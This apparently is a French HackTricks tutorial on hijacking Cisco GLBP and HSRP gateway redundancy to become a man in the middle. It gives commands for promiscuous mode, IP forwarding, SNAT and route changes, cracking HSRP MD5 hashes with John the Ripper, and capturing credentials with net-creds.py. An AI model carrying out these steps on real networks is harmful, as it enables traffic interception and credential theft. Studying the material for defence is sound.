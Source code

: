 # Attaques GLBP & HSRP

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>


## Aperçu du détournement FHRP

### Compréhension de FHRP
Le protocole de redondance de premier saut (FHRP) est un ensemble de protocoles garantissant la résilience du réseau en combinant plusieurs routeurs physiques en une seule entité virtuelle. Cela améliore la distribution de charge et la tolérance aux pannes. Cisco Systems a introduit deux protocoles FHRP notables : GLBP et HSRP.

### Détails du protocole GLBP
Développé par Cisco, GLBP (Gateway Load Balancing Protocol) fonctionne au-dessus de la pile TCP/IP, utilisant UDP sur le port 3222 pour la communication. Les routeurs au sein d'un groupe GLBP envoient des paquets "hello" toutes les 3 secondes. L'absence de ces paquets pendant 10 secondes d'un routeur indique sa défaillance. Cependant, ces paramètres de minuterie sont ajustables.

### Fonctionnement et équilibrage de charge de GLBP
GLBP permet le partage de charge entre plusieurs routeurs en utilisant une seule adresse IP virtuelle et diverses adresses MAC virtuelles. Chaque routeur du groupe participe à la transmission des paquets. GLBP diffère de HSRP/VRRP en offrant un véritable équilibrage de charge, qui comprend :

- **Dépendant de l'hôte :** Assure qu'un hôte reçoit la même adresse MAC AVF, préservant les configurations NAT.
- **Round-Robin :** Le mode par défaut où les adresses MAC AVF sont distribuées de manière alternative.
- **Round-Robin basé sur le poids :** Équilibre la charge en fonction d'une métrique de "Poids" prédéfinie.

### Rôles de domaine et terminologie GLBP
- **AVG (Passerelle virtuelle active) :** Le routeur principal, distribuant des adresses MAC aux autres routeurs.
- **AVF (Transmetteur virtuel actif) :** Un routeur gérant le trafic réseau.
- **Priorité GLBP :** Décide de l'AVG, avec une valeur par défaut de 100 et une plage de 1 à 255.
- **Poids GLBP :** Indique le niveau de charge du routeur, ajustable manuellement ou via le suivi d'objets.
- **Adresse IP virtuelle GLBP :** Agit comme passerelle par défaut pour les appareils connectés.

Pour la communication, GLBP utilise l'adresse multicast réservée 224.0.0.102 et le port UDP 3222. Des paquets "hello" sont envoyés toutes les 3 secondes, et les routeurs sont marqués comme "morts" si un paquet n'est pas reçu dans les 10 secondes.

### Mécanisme d'attaque GLBP
Un attaquant peut devenir le routeur principal en envoyant un paquet GLBP avec la valeur de priorité la plus élevée (255). Cela peut entraîner des attaques de déni de service ou de l'homme du milieu, permettant l'interception ou la redirection du trafic.

### Exécution d'une attaque GLBP avec Loki
[Loki](https://github.com/raizo62/loki_on_kali) peut effectuer une attaque GLBP en injectant un paquet avec une priorité et un poids définis à 255. Les étapes préalables à l'attaque consistent à recueillir des informations telles que l'adresse IP virtuelle, la présence d'authentification et les valeurs de priorité du routeur à l'aide d'outils comme Wireshark.

Étapes de l'attaque :
1. Passer en mode promiscuité et activer le transfert IP.
2. Identifier le routeur cible et récupérer son adresse IP.
3. Générer une ARP gratuit.
4. Injecter un paquet GLBP malveillant, en se faisant passer pour l'AVG.
5. Attribuer une adresse IP secondaire à l'interface réseau de l'attaquant, en reflétant l'adresse IP virtuelle GLBP.
6. Mettre en œuvre SNAT pour une visibilité totale du trafic.
7. Ajuster le routage pour garantir un accès continu à Internet via le routeur AVG d'origine.

En suivant ces étapes, l'attaquant se positionne en tant qu'homme du milieu, capable d'intercepter et d'analyser le trafic réseau, y compris les données non chiffrées ou sensibles.

Pour la démonstration, voici les extraits de commandes requis:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explication passive du détournement de HSRP avec détails des commandes

#### Aperçu de HSRP (Protocole de redondance/de routeur en veille active)
HSRP est un protocole propriétaire de Cisco conçu pour la redondance de passerelle réseau. Il permet la configuration de plusieurs routeurs physiques en une seule unité logique avec une adresse IP partagée. Cette unité logique est gérée par un routeur principal responsable de la direction du trafic. Contrairement à GLBP, qui utilise des métriques comme la priorité et le poids pour l'équilibrage de charge, HSRP repose sur un seul routeur actif pour la gestion du trafic.

#### Rôles et terminologie en HSRP
- **Routeur actif HSRP**: Le dispositif agissant en tant que passerelle, gérant le flux de trafic.
- **Routeur en veille HSRP**: Un routeur de secours, prêt à prendre le relais si le routeur actif échoue.
- **Groupe HSRP**: Un ensemble de routeurs collaborant pour former un seul routeur virtuel résilient.
- **Adresse MAC HSRP**: Une adresse MAC virtuelle attribuée au routeur logique dans la configuration HSRP.
- **Adresse IP virtuelle HSRP**: L'adresse IP virtuelle du groupe HSRP, agissant en tant que passerelle par défaut pour les appareils connectés.

#### Versions de HSRP
HSRP existe en deux versions, HSRPv1 et HSRPv2, différant principalement en capacité de groupe, utilisation d'IP multicast et structure d'adresse MAC virtuelle. Le protocole utilise des adresses IP multicast spécifiques pour l'échange d'informations de service, avec des paquets Hello envoyés toutes les 3 secondes. Un routeur est considéré comme inactif s'il ne reçoit aucun paquet dans un intervalle de 10 secondes.

#### Mécanisme d'attaque HSRP
Les attaques HSRP impliquent de prendre de force le rôle du routeur actif en injectant une valeur de priorité maximale. Cela peut entraîner une attaque de l'homme du milieu (MITM). Les étapes essentielles préalables à l'attaque incluent la collecte de données sur la configuration HSRP, ce qui peut être fait en utilisant Wireshark pour l'analyse du trafic.

#### Étapes pour contourner l'authentification HSRP
1. Enregistrer le trafic réseau contenant des données HSRP dans un fichier .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraire les hachages MD5 du fichier .pcap en utilisant hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Casser les hachages MD5 en utilisant John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Exécution de l'injection HSRP avec Loki**

1. Lancer Loki pour identifier les annonces HSRP.
2. Définir l'interface réseau en mode promiscuité et activer le transfert IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utiliser Loki pour cibler un routeur spécifique, entrer le mot de passe HSRP cassé et effectuer les configurations nécessaires pour se faire passer pour le routeur actif.
4. Après avoir obtenu le rôle de routeur actif, configurer votre interface réseau et les tables IP pour intercepter le trafic légitime.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifier la table de routage pour faire passer le trafic par l'ancien routeur actif.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utiliser net-creds.py ou un utilitaire similaire pour capturer les informations d'identification du trafic intercepté.
```shell
sudo python2 net-creds.py -i eth0
```

L'exécution de ces étapes place l'attaquant dans une position pour intercepter et manipuler le trafic, similaire à la procédure de détournement de GLBP. Cela met en évidence la vulnérabilité des protocoles de redondance comme HSRP et la nécessité de mesures de sécurité robustes.
